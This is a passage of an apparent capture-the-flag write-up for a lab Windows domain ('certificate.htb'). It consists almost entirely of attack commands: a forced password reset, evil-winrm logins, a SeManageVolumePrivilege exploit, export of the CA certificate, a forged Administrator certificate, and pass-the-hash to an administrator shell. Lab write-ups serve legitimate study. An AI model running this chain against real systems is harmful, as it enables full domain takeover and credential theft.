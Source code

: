 ```bash
bloodyAD -u sara.b -p 'Blink182' --dc-ip 10.10.11.71 set password ryan.k 'P@ssw0rd'
evil-winrm -i 10.10.11.71 -u ryan.k -p 'P@ssw0rd'
```

---

##  Exploit SeManageVolumePrivilege

```bash
upload SeManageVolumeExploit.exe
./SeManageVolumeExploit.exe
```

---

##  Export Root Certificate

```powershell
certutil -exportPFX my "Certificate-LTD-CA" C:\Users\Public\ca.pfx
```

>  Downloaded `ca.pfx`

---

##  Forge Certificate as Administrator

```bash
certipy-ad forge -ca-pfx ca.pfx \
-upn 'administrator@certificate.htb' \
-subject 'CN=Administrator,CN=Users,DC=certificate,DC=htb' \
-out forged_admin.pfx
```

```bash
faketime "$(ntpdate -q 10.10.11.71 | awk '/^[0-9]/ { print $1\" \"$2; exit }')" \
certipy-ad auth -pfx forged_admin.pfx -dc-ip 10.10.11.71 -username 'administrator' -domain 'certificate.htb'
```

>  Got hash:

```text
aad3b435b51404eeaad3b435b51404ee:d804304519bf0143c14cbf1c024408c6
```

---

##  Root Shell

```bash
evil-winrm -i 10.10.11.71 -u administrator -H d804304519bf0143c14cbf1c024408c6
```

>  here we go, we got the root flag



